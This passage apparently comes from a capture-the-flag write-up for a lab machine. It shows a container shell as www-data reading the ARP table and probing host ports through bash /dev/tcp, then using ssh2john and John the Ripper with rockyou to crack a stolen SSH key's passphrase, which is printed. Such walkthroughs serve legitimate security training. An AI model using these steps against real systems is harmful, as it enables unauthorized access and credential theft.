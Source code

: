 ```
EQDd4Hf9/Ln3w5FThvUf+g==
-----END DSA PRIVATE KEY-----
```

At this point we look for the IP of the real machine and check by sending an empty string to **/dev/tcp** if port 22 is enabled for us to connect.

```
www-data@e71b67461f6c:/dev/shm$ cat /proc/net/arp
IP address       HW type     Flags       HW address            Mask     Device
192.168.150.1    0x1         0x2         02:42:c6:af:c9:cd     *        eth0
www-data@e71b67461f6c:/dev/shm$ echo '' > /dev/tcp/192.168.150.1/22 && echo "[+] OPEN" || echo "[-] CLOSSED"
[+] OPEN
www-data@e71b67461f6c:/dev/shm$ echo '' > /dev/tcp/192.168.150.1/21 && echo "[+] OPEN" || echo "[-] CLOSSED"
bash: connect: Connection refused
bash: /dev/tcp/192.168.150.1/21: Connection refused
[-] CLOSSED
www-data@e71b67461f6c:/dev/shm$ 
```

Before connecting we have to decrypt the private key because it's encrypted, to do this we have to do the following:


```
In our machine:
❯ locate ssh2john.py
/usr/share/john/ssh2john.py
❯ python2.7 /usr/share/john/ssh2john.py id_rsa > hash.txt
❯ cat hash.txt
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: hash.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ id_rsa:$sshng$1$16$2037F380706D4511A1E8D114860D9A0E$448$76ced3d5d2dfc66ee8d0d0bddcf3902cb8e9b538cc305549e2ac4d94ed97b7eac1aa0006ed8401cba4e98f667657165bbb231ed2f33222937d8cd1
       │ e3856cbe36458acc574579d154ddfecee962aae9f211d859d5f4fa631f29fa06f146aa5b28017588ac5294699b25701b5cd0405d5397b127116907d445ba2ce03d84683a0eba2d72a5878a87e2b8d77298fb6537e8adfe
       │ 5157d2962f81351ab31ac374d5cade1b483d3cbe937d2d2a353926798a56c6ded8fbf47ede9c9a4c11c6f2111ecd9717db8aaf5b5298d80ae9492298957670f81c11e422e4e92ffd5255b81a5b3d6112bb265e26cc119d
       │ 693fce5afe97cba309962919aa0b0d841fcee665429869fd36c358db556ca35cecbc4b034236bf3bcc9b2d4299a038849473b0a49ea244a6fd64cd71152427de780d75eb776ee1115f11315abb100bb4a2f2940a8cb386
       │ a70e266d4d56e1c0989773e3e5531914a63bff81f8b34b886266f7feda5451a2f7992ea3116cb48906dc7595a1d60b13f1546d5a8e8eab08049c682b7ac1b7be58b24760af7414f6f9041936566c8de560dac5d260d38a
       │ 3472a3b2889e92149a50133cd2701d11f1f34acdb24961100dde077fdfcb9f7c3915386f51ffa
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

    /media/arc4he/usb_4G/ResolutionOfMachines/Inforvore/content  ✔  with   john -w:/usr/share/wordlists/rockyou.txt hash.txt

❯ john hash.txt --show
id_rsa:choclate93

1 password hash cracked, 0 left
```
